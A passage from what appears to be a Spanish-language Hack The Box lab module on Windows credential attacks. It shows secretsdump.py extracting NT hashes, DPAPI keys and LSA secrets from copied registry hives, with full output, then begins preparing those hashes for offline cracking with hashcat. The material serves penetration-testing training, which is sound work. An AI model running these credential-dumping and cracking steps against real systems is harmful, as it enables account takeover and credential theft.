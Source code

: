 ### Ejecutando secretsdump.py

```bash
sherlock28@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Clave de arranque del sistema objetivo: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Volcando hashes locales de SAM (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Volcando información de inicio de sesión en caché del dominio (dominio/usuario:hash)
[*] Volcando secretos LSA
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   68 F2 9F 2B A6 A0 C0 5D 65  72 88 71 C5 9F D2 3D 4B   h..+... ]er.q....K
 0030   0A 5B 5B 92 2A 89 06 D2 4A  8E 6C F3 E5 C5 71 45 B8   .[[.*...J.l...qE.
```

Al final de la ejecución, obtendremos todos los hashes asociados con los usuarios locales y la información de las contraseñas que podemos intentar crackear fuera de línea utilizando herramientas como `John the Ripper` o `hashcat`. Así, ¡con eso completamos nuestra técnica de copia de hives de registro!

## Cracking Hashes with Hashcat

Una vez que tengamos los hashes, podemos comenzar a intentar crackearlos usando Hashcat. Utilizaremos Hashcat para intentar crackear los hashes que hemos recopilado. Si echamos un vistazo al sitio web de Hashcat, notaremos que admite una amplia variedad de algoritmos de hashing. En este módulo, utilizamos Hashcat para casos de uso específicos. Esto nos ayudará a desarrollar la mentalidad y comprensión necesarias para usar Hashcat, así como a saber cuándo necesitamos consultar la documentación de Hashcat para entender qué modo y opciones debemos utilizar según los hashes que capturemos.

Como se mencionó anteriormente, podemos llenar un archivo de texto con los NT hashes que pudimos volcar.

### Agregando NT Hashes a un Archivo .txt

```bash
sherlock28@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```
